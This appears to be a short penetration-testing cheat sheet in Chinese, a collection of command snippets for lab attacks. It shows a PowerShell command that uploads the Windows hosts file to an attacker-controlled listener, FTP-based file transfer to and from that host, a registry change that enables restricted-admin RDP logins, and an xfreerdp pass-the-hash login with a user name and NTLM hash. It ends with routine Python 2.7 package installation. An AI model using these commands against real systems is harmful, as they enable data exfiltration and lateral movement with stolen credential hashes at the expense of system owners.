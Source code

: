 ``` powershell
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
## 一鍵開啟FTP server
```
sudo python3 -m pyftpdlib --port 21
```
- 用PowerShell抓資料
``` powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```
# 一些酷酷的指令
>[!NOTE]
>一些不知道要分類在哪裡的東西，暫時存放在這裡
## 開啟passthehash
```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
```
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
# Python2.7安裝
```shell
sudo wget https://files.pythonhosted.org/packages/28/84/27df240f3f8f52511965979aad7c7b77606f8fe41d4c90f2449e02172bb1/setuptools-2.0.tar.gz
sudo tar -xf setuptools-2.0.tar.gz
cd setuptools-2.0/
sudo python2.7 setup.py install

sudo wget https://files.pythonhosted.org/packages/42/85/25caf967c2d496067489e0bb32df069a8361e1fd96a7e9f35408e56b3aab/xlrd-1.0.0.tar.gz
sudo tar -xf xlrd-1.0.0.tar.gz
cd xlrd-1.0.0/
sudo python2.7 setup.py install
```